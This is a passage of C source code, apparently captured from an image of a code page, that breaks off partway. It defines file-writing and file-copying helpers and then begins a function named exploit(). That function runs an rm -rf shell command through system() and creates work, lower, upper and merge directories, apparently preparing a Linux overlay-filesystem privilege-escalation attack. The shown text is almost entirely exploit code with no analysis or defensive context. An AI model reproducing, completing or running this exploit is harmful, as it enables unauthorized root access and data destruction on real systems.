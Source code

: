 ```c
static void xwritefile(const char *path, const char *data)
{
    int fd = open(path, O_WRONLY);
    if (fd == -1)
        err(1, "open %s", path);
    ssize_t len = (ssize_t) strlen(data);
    if (write(fd, data, len) != len)
        err(1, "write %s", path);
    close(fd);
}

static void xcopyfile(const char *src, const char *dst, mode_t mode)
{
    int fi, fo;

    if ((fi = open(src, O_RDONLY)) == -1)
        err(1, "open %s", src);
    if ((fo = open(dst, O_WRONLY | O_CREAT, mode)) == -1)
        err(1, "open %s", dst);

    char buf[4096];
    ssize_t rd, wr;

    for (;;) {
        rd = read(fi, buf, sizeof(buf));
        if (rd == 0) {
            break;
        } else if (rd == -1) {
            if (errno == EINTR)
                continue;
            err(1, "read %s", src);
        }

        char *p = buf;
        while (rd > 0) {
            wr = write(fo, p, rd);
            if (wr == -1) {
                if (errno == EINTR)
                    continue;
                err(1, "write %s", dst);
            }
            p += wr;
            rd -= wr;
        }
    }

    close(fi);
    close(fo);
}

static int exploit()
{
    char buf[4096];

    sprintf(buf, "rm -rf '%s/'", DIR_BASE);
    system(buf);

    xmkdir(DIR_BASE, 0777);
    xmkdir(DIR_WORK,  0777);
    xmkdir(DIR_LOWER, 0777);
    xmkdir(DIR_UPPER, 0777);
    xmkdir(DIR_MERGE, 0777);

```